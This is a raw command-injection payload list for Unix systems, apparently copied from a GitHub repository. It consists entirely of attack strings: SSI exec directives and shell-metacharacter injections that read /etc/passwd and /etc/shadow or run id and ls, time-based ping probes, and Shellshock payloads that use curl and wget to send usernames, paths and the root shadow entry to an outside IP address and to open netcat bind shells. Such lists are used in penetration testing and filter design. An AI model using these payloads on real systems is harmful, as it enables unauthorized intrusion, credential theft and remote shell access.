 <h3>Unix</h3>
<pre>
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
/index.html|id|
;id;
;id
;netstat -a;
;system('cat%20/etc/passwd')
;id;
|id
|/usr/bin/id
|id|
|/usr/bin/id|
||/usr/bin/id|
|id;
||/usr/bin/id;
;id|
;|/usr/bin/id|
\n/bin/ls -al\n
\n/usr/bin/id\n
\nid\n
\n/usr/bin/id;
\nid;
\n/usr/bin/id|
\nid|
;/usr/bin/id\n
;id\n
|usr/bin/id\n
|nid\n
`id`
`/usr/bin/id`
a);id
a;id
a);id;
a;id;
a);id|
a;id|
a)|id
a|id
a)|id;
a|id
|/bin/ls -al
a);/usr/bin/id
a;/usr/bin/id
a);/usr/bin/id;
a;/usr/bin/id;
a);/usr/bin/id|
a;/usr/bin/id|
a)|/usr/bin/id
a|/usr/bin/id
a)|/usr/bin/id;
a|/usr/bin/id
;system('cat%20/etc/passwd')
;system('id')
;system('/usr/bin/id')
%0Acat%20/etc/passwd
%0A/usr/bin/id
%0Aid
%0A/usr/bin/id%0A
%0Aid%0A
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
%0a ping -i 30 127.0.0.1 %0a
`ping 127.0.0.1`
| id
& id
; id
%0a id %0a
`id`
$;/usr/bin/id
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=16?user=\`whoami\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=18?pwd=\`pwd\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=20?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=22?uname=\`uname -a\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=24?shell=\`nc -lvvp 1234 -e /bin/bash\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=26?shell=\`nc -lvvp 1236 -e /bin/bash &\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=5"
() { :;}; /bin/bash -c "sleep 1 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=1&?vuln=6"
() { :;}; /bin/bash -c "sleep 1 && echo vulnerable 1"
() { :;}; /bin/bash -c "sleep 3 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=3&?vuln=7"
() { :;}; /bin/bash -c "sleep 3 && echo vulnerable 3"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=6&?vuln=8"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=9&?vuln=9"
() { :;}; /bin/bash -c "sleep 6 && echo vulnerable 6"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=17?user=\`whoami\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=19?pwd=\`pwd\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=21?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=23?uname=\`uname -a\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=25?shell=\`nc -lvvp 1235 -e /bin/bash\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=27?shell=\`nc -lvvp 1237 -e /bin/bash &\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=4"
cat /etc/hosts
$(`cat /etc/passwd`)
cat /etc/passwd
%0Acat%20/etc/passwd
&#123;&#123; get_user_file(&quot;/etc/passwd&quot;) &#125;&#125;
&lt; !--#exec cmd="/bin/cat /etc/passwd"--&gt;
&lt; !--#exec cmd="/bin/cat /etc/shadow"--&gt;
&lt; !--#exec cmd="/usr/bin/id;"--&gt;
system('cat /etc/passwd');
&lt;?php system(&quot;cat /etc/passwd&quot;);?&gt;
</pre>

Windows Commnads here:
https://github.com/payloadbox/command-injection-payload-list